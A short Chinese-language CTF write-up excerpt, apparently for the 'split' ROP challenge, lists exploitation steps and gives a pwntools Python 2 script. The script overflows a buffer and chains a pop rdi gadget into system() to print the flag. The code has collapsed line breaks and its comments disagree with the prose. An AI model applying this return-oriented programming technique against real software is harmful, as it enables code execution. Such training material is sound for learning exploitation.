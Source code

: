 ![](img/fed42eb2defde2195f871152e2414fc2.png)

找到小工具

# 剥削

现在是时候创建一个漏洞了，它将标志返回给我们。这很简单，因为我们已经找到了我们需要的一切。我恭敬地建议您使用 python2 来构建您的漏洞。这就是我觉得舒服和简单的地方。

> 1.填充缓冲区
> 
> 2.POP rdi
> 
> 3.将单个参数(" cat /bin/flag.txt ")传递给 system()
> 
> 4.完成的

```
from pwn import *

print("**************** Check-sec ***************")                       xrx = ELF('./split')                       print("******************************************")payload   = "A" * 40payload  += p64(0x004007c3) # pop rdipayload  += p64(0x00601060) # /bin/cat flag.txtpayload  += p64(0x00400560) # sytem()p = xrx.process()
print p.recvuntil(">")
p.clean()p.sendline(payload)
p.recv()
p.interactive()
print p.clean()
```
